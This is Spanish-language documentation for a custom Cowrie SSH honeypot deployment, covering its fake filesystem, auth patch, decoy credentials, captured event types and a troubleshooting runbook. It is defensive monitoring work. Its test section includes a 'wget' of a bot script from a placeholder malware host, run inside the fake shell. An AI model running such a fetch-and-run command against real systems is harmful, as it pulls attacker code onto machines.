

import { Aside } from '@astrojs/starlight/components';

[Cowrie](https://github.com/cowrie/cowrie) es un honeypot SSH y Telnet de media interaccion. Simula un shell Linux real — los atacantes creen que tienen acceso a un servidor genuino, pero cada accion que realizan queda registrada sin afectar ningun sistema real.

---

## Build personalizada

El directorio `sensors/cowrie/` contiene una imagen Docker custom que extiende la imagen oficial de Cowrie con:

```
cowrie/
├── Dockerfile          # Build personalizado
├── cowrie.cfg          # Configuracion del honeypot
├── userdb.txt          # Credenciales que Cowrie acepta
├── patch_auth.py       # Parche de autenticacion
├── heartbeat.py        # Beacon sidecar (reutilizable)
├── honeyfs/            # Filesystem falso
│   ├── etc/
│   │   ├── passwd      # Usuarios del sistema falsos
│   │   ├── shadow      # Hashes de passwords
│   │   ├── hostname
│   │   ├── os-release  # Ubuntu 22.04 simulado
│   │   └── ...
│   ├── home/ubuntu/
│   │   ├── .bash_history
│   │   └── .bashrc
│   ├── proc/
│   │   ├── cpuinfo     # CPU falsa (Intel Xeon simulado)
│   │   ├── meminfo     # RAM falsa
│   │   └── version
│   └── root/
│       └── .bash_history
└── txtcmds/            # Salidas estaticas de comandos
    ├── bin/
    │   ├── df          # Discos falsos
    │   ├── netstat
    │   ├── ss
    │   └── uname
    └── usr/bin/
        ├── env
        ├── free        # RAM simulada
        ├── id          # root simulado
        ├── last        # Logins previos falsos
        ├── w
        └── whoami
```

### Por que una build custom

El filesystem y los comandos falsos hacen que el sistema simulado parezca una maquina Ubuntu 22.04 real:

- `cat /etc/passwd` muestra usuarios plausibles (ubuntu, www-data, postgres, etc.)
- `uname -a` devuelve un kernel version coherente
- `free -h` muestra 8GB de RAM
- `cat /root/.bash_history` muestra comandos previos que añaden credibilidad

Esto mantiene a los atacantes mas tiempo en la sesion y captura mas comandos de post-explotacion.

### `patch_auth.py`

Parche que se aplica **durante el build** (`RUN patch_auth.py` en el Dockerfile) y modifica el core de Cowrie sin forkearlo. Hace tres cosas:

1. **Añade `UserDBWithLengthPolicy`** — subclase de `UserDB` que rechaza passwords de menos de 8 caracteres. (Disponible pero opcional: se activa poniendo `auth_class = UserDBWithLengthPolicy` en `cowrie.cfg`; por defecto se usa `UserDB`.)
2. **Bloqueador de escaneres** — corta la conexion en cuanto el cliente anuncia un version string de scanner conocido (`SSH-2.0-Go`, `ZGrab`, `masscan`, etc.) **antes** de la autenticacion, para reducir ruido.
3. **Lectura tolerante del `userdb.txt`** — fuerza a Cowrie a leer el archivo como UTF-8 con `errors="replace"` en vez de ASCII estricto.

<Aside type="caution">
El punto 3 es critico: Cowrie por defecto lee `userdb.txt` con `encoding="ascii"` y **reinstancia `UserDB()` en cada intento de login**. Un solo byte no-ASCII en el archivo (un guion largo `—`, una tilde o `ñ` en un comentario) provoca `UnicodeDecodeError` en cada login → la autenticacion falla en silencio para **todos** (incluidos atacantes reales) y **no se registra nada**. El parche lo evita, pero aun asi conviene mantener `userdb.txt` en ASCII puro.
</Aside>

### `userdb.txt`

Define que combinaciones usuario/password acepta Cowrie como "exitosas". Formato `usuario:x:password` (`*` = cualquiera, `!password` = denegar, `/regex/` = patron).

En este proyecto **no hay comodin (`*`)**: solo se aceptan ~40 passwords largas y especificas (ej. `HoneyTrap2026!`, `AtlasNode91`) repartidas entre usuarios comunes (root, ubuntu, admin, oracle, postgres, git, deploy…). Esto reduce el aluvion de logins triviales pero **igual registra como `cowrie.login.failed`** cualquier intento que no coincida. Para que un login tenga **exito** (y de shell) hay que usar exactamente una de esas claves.

---

## Que captura

Cowrie registra en `cowrie.json` todos los eventos del protocolo SSH:

| Tipo de evento | Descripcion |
|---------------|-------------|
| `cowrie.session.connect` | Conexion TCP establecida con IP y puerto del atacante |
| `cowrie.login.failed` | Intento de login fallido (usuario + contrasena probados) |
| `cowrie.login.success` | Login exitoso |
| `cowrie.command.input` | Comando ejecutado en el shell falso |
| `cowrie.command.failed` | Comando no reconocido por el shell simulado |
| `cowrie.session.file_download` | Intento de descarga de archivo (wget, curl, tftp) |
| `cowrie.session.closed` | Cierre de sesion con duracion total |

---

## Flujo de logs hacia ingest-api



<Aside type="note">
Vector hace tail con offset guardado en disco — si el contenedor reinicia, retoma desde donde quedo sin re-enviar eventos. Ver [Vector](/services/vector/) para mas detalles.
</Aside>

---

## Configuracion en el proyecto

### Desarrollo local

```yaml
# docker-compose.yml
cowrie:
  build:
    context: ./cowrie
  container_name: cowrie
  ports:
    - "2222:2222"
  volumes:
    - cowrie_var:/cowrie/cowrie-git/var
    - sensors/cowrie/cowrie.cfg:/cowrie/cowrie-git/etc/cowrie.cfg:ro
    - sensors/cowrie/userdb.txt:/cowrie/cowrie-git/etc/userdb.txt:ro
```

### Produccion single-host

```yaml
cowrie:
  ports:
    - "22:2222"        # El puerto 22 real va a Cowrie
  networks:
    - edge             # Solo red edge, sin acceso a app
  security_opt:
    - no-new-privileges:true
  cap_drop:
    - ALL
  pids_limit: 256
```

### Con beacon sidecar (multi-VM)

```yaml
cowrie-beacon:
  image: python:3.12-alpine
  restart: unless-stopped
  depends_on:
    - cowrie
  environment:
    SENSOR_ID: cowrie-ssh-prod-01
    SENSOR_NAME: "SSH Honeypot (Cowrie) - VPS Berlin"
    SENSOR_PROTOCOL: ssh
    SENSOR_VERSION: cowrie
    SENSOR_PORTS: "22"
    SENSOR_PROBE_PORTS: "22"
    SENSOR_HOST: cowrie
    INGEST_API_URL: ${INGEST_API_URL}
    INGEST_SHARED_SECRET: ${INGEST_SHARED_SECRET}
  volumes:
    - sensors/cowrie/heartbeat.py:/heartbeat.py:ro
  command: ["python3", "/heartbeat.py"]
```

---

## Clasificacion automatica de sesiones

El dashboard clasifica cada sesion de Cowrie segun el numero de eventos y si el login fue exitoso:

| Clasificacion | Condicion | Descripcion |
|---------------|-----------|-------------|
| Scanner | No logueado, ≤3 eventos | Solo sondeo de puerto |
| Bot scan | No logueado, 8–30 eventos | Intento multiple de credenciales |
| Brute-force | No logueado, >30 eventos | Ataque de fuerza bruta intenso |
| Login only | Logueado, ≤8 eventos | Acceso exitoso sin actividad post-login |
| Recon | Logueado, 8–20 eventos | Reconocimiento basico tras acceso |
| Interactive | Logueado, 20–40 eventos | Sesion interactiva activa |
| Malware dropper | Logueado, >40 eventos | Actividad extensa, posible descarga de malware |

---

## Probar Cowrie

Usa **un par valido del `userdb.txt`** (no `root/root` — eso se rechaza). El honeypot escucha en **2222** (y en **22** en produccion).

```bash
# Conectate con una credencial valida
ssh -p 2222 root@localhost          # local
ssh -p 2222 root@<IP-del-VPS>       # produccion
# password:  HoneyTrap2026!         (ojo: el "!" final es parte de la clave)

# Dentro del shell falso:
whoami
cat /etc/passwd
uname -a
free -h
cat /root/.bash_history
wget http://malware.example.com/bot.sh
```

Cada comando aparecera en el dashboard bajo `/sessions`. Un intento con clave invalida se registra como `cowrie.login.failed`.

---

## Topologia de puertos (produccion)

| Puerto | Servicio | Notas |
|--------|----------|-------|
| **8022** | SSH **real** de administracion del VPS | Por aqui entras a gestionar la maquina |
| **22** | Cowrie (honeypot) | Libre para Cowrie *porque* admin se movio a 8022 |
| **2222** | Cowrie (honeypot) | Puerto alterno de pruebas |

El despliegue de produccion es `docker compose -f docker-compose.prod.single-host.yml`. Los archivos `cowrie.cfg` y `userdb.txt` se montan **read-only** (`:ro`) desde `sensors/cowrie/`, asi que un cambio de config solo necesita reiniciar Cowrie (no rebuild); un cambio en `patch_auth.py` si necesita rebuild (se aplica en build time).

<Aside type="caution">
**Reconstruye siempre con el `-f` correcto.** Si corres `docker compose up --build cowrie` sin `-f`, Docker usa el `docker-compose.yml` de desarrollo, que **solo mapea 2222** → pierdes el puerto 22 y aparecen warnings de "orphan containers". Comando correcto:

```bash
docker compose -f docker-compose.prod.single-host.yml up -d --build cowrie
```
</Aside>

---

## Runbook: "los logins no funcionan / no se capturan credenciales"

Sintomas: las credenciales configuradas no entran y/o los intentos no aparecen en el dashboard. Diagnostica en orden:

### 1. ¿Cowrie esta vivo y escuchando los puertos correctos?

```bash
docker ps --filter name=cowrie --format '{{.Status}}  {{.Ports}}'
ss -tlnp | grep -E ':(22|2222)\b'      # deben aparecer 22 y 2222
```
Si solo sale 2222 → reconstruiste con el compose equivocado (ver caja de arriba).

### 2. ¿Hay excepciones en la autenticacion?

Las trazas de error **no** van a `cowrie.json` (ahi solo hay eventos estructurados); van al stdout del contenedor:

```bash
docker logs cowrie 2>&1 | grep -iE "traceback|unhandled|error|checkers|auth.py" | tail -40
```
El caso clasico es `UnicodeDecodeError` en `auth.py` → el `userdb.txt` tiene un byte no-ASCII. Arreglo:

```bash
grep -nP "[^\x00-\x7F]" sensors/cowrie/userdb.txt        # localiza el caracter
iconv -f utf-8 -t ascii//TRANSLIT sensors/cowrie/userdb.txt -o sensors/cowrie/userdb.txt
docker compose -f docker-compose.prod.single-host.yml up -d cowrie   # relee el bind-mount
```
(El parche del punto 3 de `patch_auth.py` ya evita el crash, pero mantener ASCII es lo mas limpio.)

### 3. ¿Que ve Cowrie realmente? (eventos en vivo)

El contenedor `vector` monta el volumen de logs y tiene shell:

```bash
docker exec vector tail -f /cowrie/cowrie-git/var/log/cowrie/cowrie.json
```
Conectate en paralelo y observa. Debes ver `cowrie.login.failed` / `cowrie.login.success` con `username`/`password`. Si solo ves `connect`/`client.version`/`session.closed` sin login, el cliente no llego a autenticar (ver punto 4).

### 4. Probando desde tu propio cliente (Windows / OpenSSH)

- **Usa la clave completa**, con simbolos incluidos: `HoneyTrap2026!` (no `HoneyTrap2026`).
- **Apunta al puerto de Cowrie**: `ssh root@<IP> -p 2222` (sin `-p`, en produccion el 22 tambien va a Cowrie; pero **no** confundas con el 8022 de admin).
- Tras un rebuild, Cowrie regenera su host key → tu `known_hosts` da `REMOTE HOST IDENTIFICATION HAS CHANGED`. Limpialo:
  ```bash
  ssh-keygen -R "[<IP>]:2222"
  ssh-keygen -R "<IP>"
  ```
- Si quieres ir directo al prompt de password (saltando intentos de pubkey de tu agente):
  ```bash
  ssh -o PreferredAuthentications=password -o PubkeyAuthentication=no root@<IP> -p 2222
  ```

### Notas de diseno relevantes para el diagnostico

- El **bloqueador de escaneres** (`patch_auth.py`) corta los `SSH-2.0-Go` y similares **antes** de la auth: veras `connect → client.version → session.closed (0.0s)` sin credenciales. Es esperado y reduce la captura de esos bots.
- El `entrypoint.py` **respeta** los archivos bind-montados read-only (no los sobrescribe) y no crashea ante un montaje `:ro`. Si ves `cowrie.cfg already present (bind mount?), keeping it` en los logs, es correcto.
